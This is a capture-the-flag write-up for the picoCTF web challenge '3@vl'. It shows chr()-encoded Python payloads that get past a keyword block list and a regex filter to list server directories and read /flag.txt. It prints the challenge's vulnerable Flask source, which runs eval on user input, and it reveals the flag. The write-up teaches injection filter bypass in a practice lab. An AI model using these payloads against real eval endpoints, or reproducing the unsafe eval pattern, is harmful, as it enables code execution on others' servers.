

# 3@vl — Pico Gym

> **Room / Challenge:** 3@vl (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** 3@vl (web)
- **Link**: `https://play.picoctf.org/practice/challenge/484?category=1&page=2`
- **Difficulty:** `Medium`
- **Date:** `22-10-2025`

---

## Goal

We have to get the flag by bypassing `eval` function.

## My Solution

Based on the description we know that we have to bypass the `eval` and searching online there are a lots of payloads and examples of how we can exploit this. Furthermore, `View page source` and we can see the comment in HTML:

```html
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

So we know that it blocks various common commands that we use to read the flag and there is a regex preventing us from writing suspicious payloads, so first try our first payload to view directories in the server:

```
getattr(__import__(''.join([chr(111),chr(115)])),'listdir')()
```

> This payload works (bypass the regex and the blocking) because we doesn't use `os` directly we use `chr(111) -> o` and `chr(115) -> s` and then the command that will be executed is `getattr(__import__('os'), 'listdir')`

The result is:

```
Result: ['app.py', 'static', 'templates']
```

Found `app.py` the flag may appear in the source code of the server so I open the `app.py` to see its content:

Result:

```
Result: from flask import Flask, request, render_template_string, render_template import re app = Flask(__name__) # Define blocklist keywords and regex for file paths BLOCKLIST_KEYWORDS = ['os', 'eval', 'exec', 'bind', 'connect', 'python','python3', 'socket', 'ls', 'cat', 'shell', 'bind'] FILE_PATH_REGEX = r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.' @app.route('/') def index(): return render_template('index.html/') @app.route('/execute', methods=['POST']) def execute(): code = request.form['code'] # Check for blocklist keywords in submitted code for keyword in BLOCKLIST_KEYWORDS: if keyword in code: return render_template('error.html', keyword=keyword) # Check for file path using regex if re.search(FILE_PATH_REGEX, code): return render_template('error.html') try: # Execute the Python code if no blocklist keyword or file path found result = eval(code) except Exception as e: result = f"Error: {str(e)}" return render_template('result.html', result=result) if __name__ == '__main__': app.run(debug=True, host="0.0.0.0", port=5000)
```

Then I tried to list dir in `static` and `templates` but still doesn't find the flag file. Therefore, I tried to list directories in `/` for further investigation:

```
getattr(__import__(''.join(map(chr,[111,115]))),'listdir')(chr(47))
```



Oh I found the `flag.txt` file, now read the file and capture the flag:

```
getattr(__import__(''.join(map(chr,[98,117,105,108,116,105,110,115]))),'open')(''.join(map(chr,[47,102,108,97,103,46,116,120,116]))).read()
```


Flag: `picoCTF{D0nt_Use_Unsecure_f@nctions5e20166b}`
